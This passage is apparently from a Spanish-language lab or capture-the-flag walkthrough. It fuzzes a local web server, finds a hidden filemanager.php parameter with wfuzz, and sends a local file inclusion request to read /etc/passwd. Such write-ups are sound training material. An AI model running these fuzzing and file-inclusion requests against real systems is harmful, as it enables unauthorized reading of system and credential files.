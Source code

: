 Tras fuzzear encuentro el archivo `filemanager.php` pero al abrirlo te redirige al index.html... por lo que decido abrir Burpsuite para capturar la petición.

```bash
GET /filemanager.php HTTP/1.1
Host: 192.168.0.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
Al tener un archivo php lo primero que se me ocurre es probar para ver si es vulnerable a `Local File Inclusion`.

Para ello he de fuzzear de nuevo para obtener el parámetro que he de incluir en la url para poder efectuar el LFI en caso de que lo haya.

Para ello usaré wfuzz.

```bash
❯ wfuzz -c --hc=404 --hw=0 -u 'http://192.168.0.18/filemanager.php?FUZZ=/etc/passwd' -w /usr/share/wordlists/dirb/common.txt 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000003267:   302        27 L     39 W       1430 Ch     "random"                                                                                                                   
```

Tras encontrar el parámetro intento leer archivos de la máquina vícitma, como el archivo passwd.

```bash
GET /filemanager.php?random=/etc/passwd HTTP/1.1
Host: 192.168.0.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
